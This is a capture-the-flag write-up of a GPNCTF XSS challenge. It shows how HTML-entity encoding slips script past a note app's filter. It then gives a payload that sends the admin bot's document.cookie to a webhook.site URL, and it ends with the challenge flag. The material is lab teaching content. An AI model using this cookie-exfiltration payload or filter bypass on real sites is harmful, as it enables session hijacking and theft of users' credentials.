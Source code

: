 # Description

All my friends warned me about xss, so I created this note taking app that only accepts "refined" Notes.

# Solution

The challenge does not come with any files .. howerver we get 2 links: one for creating new notes and another to check
already created notes.

<img width="277" alt="image" src="https://github.com/AdamZvara/CTF/assets/36104483/b2698df4-b442-4eaa-b94d-edf3903ad277">

<img width="376" alt="image" src="https://github.com/AdamZvara/CTF/assets/36104483/dac61abd-a09e-45f7-b052-bc679af0f1d1">

Let's try and create a note

<img width="267" alt="image" src="https://github.com/AdamZvara/CTF/assets/36104483/15a2a175-f5bb-4c68-be08-5bbc04fc82fe">

<img width="479" alt="image" src="https://github.com/AdamZvara/CTF/assets/36104483/a87cf163-434f-487b-bce6-933f884a8193">

We can access it from the adminbot page using the generated UID

<img width="131" alt="image" src="https://github.com/AdamZvara/CTF/assets/36104483/2d1650dd-09d5-4781-9fa7-49ff2104c5e5">

Let's try to put some javascript code into the note

<img width="281" alt="image" src="https://github.com/AdamZvara/CTF/assets/36104483/d9cef8b4-079c-4493-b560-07295ba15077">

It looks like the website looks for any source code and removes it

<img width="266" alt="image" src="https://github.com/AdamZvara/CTF/assets/36104483/f903cf42-cdb3-463c-b305-620c1666a8be">

Let's try to encode the source code in HTML to see how the page reacts

<img width="267" alt="image" src="https://github.com/AdamZvara/CTF/assets/36104483/33a080a3-675f-4d4f-883e-d4d12d128f4a">

It looks like it decoded it and saved it 

<img width="265" alt="image" src="https://github.com/AdamZvara/CTF/assets/36104483/a19aa1cb-f00b-4b21-9202-07b50cae14b3">

Okay so let's create a simple payload which contacts our webhook and access the note with adminbot to see if it works
```
original = <script>fetch("https://webhook.site/87a78774-1478-4f7c-9f67-1baa96bde1cc?data=test")</script>
encoded = &lt;script&gt;fetch(&quot;https://webhook.site/87a78774-1478-4f7c-9f67-1baa96bde1cc?data=test&quot;)&lt;/script&gt;
```

And we got a hit

<img width="390" alt="image" src="https://github.com/AdamZvara/CTF/assets/36104483/c92587b6-2d3e-43c0-8552-7ace82b18f38">

Okay so now lets try to send the cookies the pages in admin use to see if it contains the flag
```
original = <script>fetch("https://webhook.site/87a78774-1478-4f7c-9f67-1baa96bde1cc?data=" + document.cookie)</script>
encoded = &lt;script&gt;fetch(&quot;https://webhook.site/87a78774-1478-4f7c-9f67-1baa96bde1cc?data=&quot; + document.cookie)&lt;/script&gt;
```
and we get the flag: `flag=GPNCTF{3nc0d1ng_1s_th3_r00t_0f_4ll_3v1l}`
